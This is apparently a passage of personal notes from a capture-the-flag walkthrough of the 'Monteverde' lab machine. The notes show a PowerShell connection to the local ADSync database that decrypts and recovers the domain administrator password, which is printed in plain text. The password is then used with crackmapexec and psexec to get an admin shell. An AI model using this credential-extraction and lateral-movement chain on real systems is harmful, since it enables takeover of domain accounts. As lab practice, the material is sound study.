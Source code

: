 `$sqlConn. Open()`

![[Local SQL Server Connection Command.png]]
Modifying our command to:

`$client = new-object System.Data.SqlClient.SqlConnection -ArgumentList "Server Integrated Security=true;Initial Catalog=ADSync"`

![[Monteverde Local SQL Server Connection Command.png]]

So now the second line of the script $client.Open() ran with no errors. 

Updating `decrypt.ps1` script and re-running it worked. 

Got admin password:
![[monteverde-admin-creds.png]]

Going to #crackmapexec 

`crackmapexec smb 10.10.10.172 -u administrator -p d0m@in4dminyeah!`

this werked. 

![[monteverde cme pwned.png]]

Can connect with #psexec 

`psexec.py administrator@10.10.10.172`

![[monteverde admin psexec.png]]




